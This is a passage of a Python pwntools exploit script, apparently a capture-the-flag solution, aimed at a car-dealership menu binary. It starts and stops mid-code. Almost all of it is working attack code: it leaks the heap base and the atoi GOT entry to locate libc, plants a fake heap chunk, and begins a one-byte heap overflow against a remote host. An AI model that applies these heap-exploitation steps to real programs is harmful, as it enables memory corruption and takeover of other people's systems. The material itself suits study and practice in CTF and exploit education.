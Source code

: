 ```python exp_car.py
    r.sendlineafter("model\n", model)
    r.sendlineafter("price\n", str(price))

def sel_car_cust(idx, cust_zip):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "4")

    for (choice, data) in cust_zip:
        r.sendlineafter(">\n", str(choice))
        r.sendlineafter(": \n", data)
    
    r.sendlineafter(">\n", "4") # exit cust mode

def leak_heap(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "3") # add com
    r.sendlineafter(": \n", "123") # input com
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "4") # add cust
    r.sendlineafter(">\n", "4") # exit cust
    r.sendlineafter(">\n", "1") # list
    r.recvuntil("Firstname : ")
    heap_base = u64(r.recvline().strip().ljust(8, "\x00")) - 0xb90
    r.sendlineafter(">\n", "5")

    return heap_base

def leak_got(idx):
    r.sendlineafter(">\n", "4")
    r.sendlineafter("index\n", str(idx))
    r.sendlineafter(">\n", "1")
    r.recvuntil("Firstname : ")
    atoi_addr = u64(r.recv(6).ljust(8, "\x00"))
    log.success("atoi_addr: "+hex(atoi_addr))
    libc.address += atoi_addr - libc.symbols['atoi']
    r.sendlineafter(">\n", "5")


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    for i in xrange(17):
        model = chr(ord("a")+i)*4
        price = 100+i
        log.info("add car: "+str(i))
        if i == 15: # fake chunk
            model = p64(0) + p64(0x51)
            price = 0x1111
        add_car(model, price)

    # leak heap base
    log.info("leaking heap base...")
    heap_base = leak_heap(16)
    log.success("heap_base: "+hex(heap_base))

    # overflow one byte of heap address
    log.info("overflowing heap address...")
    choice = [3, 1]
```